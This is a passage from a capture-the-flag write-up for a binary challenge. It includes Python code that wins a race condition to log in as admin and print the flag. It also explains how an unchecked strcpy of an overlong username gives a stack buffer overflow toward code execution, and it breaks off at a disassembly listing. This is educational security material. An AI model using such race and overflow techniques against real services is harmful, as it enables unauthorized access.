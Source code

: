 If everything worked out we will now be logged in as admin and can grab flag01 through the second command. :)

Here's the code to do that (it's using the template from [here](https://github.com/kitctf/ctfcode/tree/master/ExploitTemplates)):

{% highlight python %}
def get_flag01():
    while True:
        with connect(TARGET) as c:
            c.send(b'1\n')
            c.send(b'guest\n')
            c.send(b'guest\n')
            c.send(b'1\n')
            c.send(b'admin\n')
            c.send(b'asdf\n')
            time.sleep(1)
            c.send(b'2\n')
            c.send(b'4\n')
            resp = d(c.recv_until_found([b'Congratulations', b'Access']))
            if '9447' in resp:
                print(re.search('(9447{\w+})', resp).group(1))
                return
            else:
                sys.stdout.write('.')
                sys.stdout.flush()
{% endhighlight %}

Two flags left to go.

## Getting Code Execution

Reading through the above analysis you'll notice there are two strcpy operations which copy data into a buffer on the stack (one at the end of a successful login in the authentication thread and one in the main thread when fetching the message).\\
Both of them are performed without checking the length of the src buffer first, presumably because the data there (the username) should already have been checked to be smaller than 0x20. This assumption is invalid though as we can put a much longer string there once we win the race. (The fgets from stdin allows us to put up to 5000 bytes into the tmp_username_buf while the stack buffer is only 500 bytes large, see the memset(0) block at 0x08048db1)

The overflow in the main thread looks particularly interesting as we can make the main function return and thus gain code execution if we overflow into the return address. (The main function of the second thread never returns)\\
Additionally, flag02 is stored on the stack, so if we overflow just up to the start of it we will be able to leak it through the "See message" functionality (command 3). I went straight for code execution here though, so leaking flag02 this way is left as an exercise for the reader ;)

To sum it up we now have a buffer overflow that we can trigger by winning the race and writing an overly long username. Stack canaries are disabled so this should be relatively easy.\\
It mostly is, however, there's a little catch. Check the disassembly:

    08048fdf C745F400000000         mov        dword [ss:ebp+curr_index], 0x0
    08048fe6 EB27                   jmp        0x804900f
